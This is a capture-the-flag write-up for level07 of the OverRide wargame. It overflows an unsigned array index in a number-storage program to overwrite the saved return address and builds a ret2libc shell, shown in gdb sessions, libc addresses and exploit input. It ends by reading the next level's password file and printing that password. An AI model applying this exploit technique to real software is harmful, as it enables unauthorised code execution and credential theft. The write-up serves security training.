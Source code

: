 # level07

This program is a simple number storage system. It stores and reads number in an array `unsigned int data[100]`. But we cannot store a number with `index % 3 == 0`.

## Step 1. Calculate offset to overwrite `eip`
```assembly
0x08048924 <+513>:	lea    eax,[esp+0x24]
0x08048928 <+517>:	mov    DWORD PTR [esp],eax
0x0804892b <+520>:	call   0x80486d7 <read_number>
```
```
level07@OverRide:~$ gdb -q level07
(gdb) break *0x0804892b
Breakpoint 1 at 0x804892b
(gdb) run
Starting program: /home/users/level07/level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: read

Breakpoint 1, 0x0804892b in main ()
(gdb) info registers eax
eax            0xffffd544	-10940
(gdb) info frame
Stack level 0, frame at 0xffffd710:
 eip = 0x804892b in main; saved eip 0xf7e45513
 Arglist at 0xffffd708, args:
 Locals at 0xffffd708, Previous frame's sp is 0xffffd710
 Saved registers:
  ebx at 0xffffd6fc, ebp at 0xffffd708, esi at 0xffffd700, edi at 0xffffd704,
  eip at 0xffffd70c
(gdb) print 0xffffd70c - 0xffffd544
$1 = 456
```
We set a breakpoint before calling `read_number` function, then get offset `456` by calculating `eip - eax`. For a 32 bit integer array, `eip` locates in `data[114]`.

## Step 2. Find a way to set data[114]
```
level07@OverRide:~$ gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble store_number" level07
Dump of assembler code for function store_number:
[...]
   0x08048666 <+54>:	call   0x80485e7 <get_unum>
   0x0804866b <+59>:	mov    DWORD PTR [ebp-0xc],eax
[...]
   0x080486c2 <+146>:	mov    eax,DWORD PTR [ebp-0xc]
   0x080486c5 <+149>:	shl    eax,0x2
   0x080486c8 <+152>:	add    eax,DWORD PTR [ebp+0x8]
   0x080486cb <+155>:	mov    edx,DWORD PTR [ebp-0x10]
   0x080486ce <+158>:	mov    DWORD PTR [eax],edx
   0x080486d0 <+160>:	mov    eax,0x0
   0x080486d5 <+165>:	leave
   0x080486d6 <+166>:	ret
End of assembler dump.
```
We cannot set `data[114]` directly because `114 % 3 == 0`. The disassembly code shows that left shift 2 position is analogous to multiply by 4. So our goal here is to find a number who satisfies the equation `114 << 2 = X << 2`. We can find three numbers `1073741938, 2147483762 and 3221225586` by flipping bit 30 and bit 31, but `3221225586 % 3 == 0`.

## Step 3. Find ret2libc address
```
level07@OverRide:~$ gdb -q level07
Reading symbols from /home/users/level07/level07...(no debugging symbols found)...done.
(gdb) break main
Breakpoint 1 at 0x8048729
(gdb) run
Starting program: /home/users/level07/level07

Breakpoint 1, 0x08048729 in main ()
(gdb) print system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) print exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.

0xf7e6aed0 => 4159090384 => system
0xf7e5eb70 => 4159040368 => exit
0xf7f897ec => 4160264172 => "/bin/sh"
```

## Step 4. Input numbers into system
```
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/$(whoami)/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
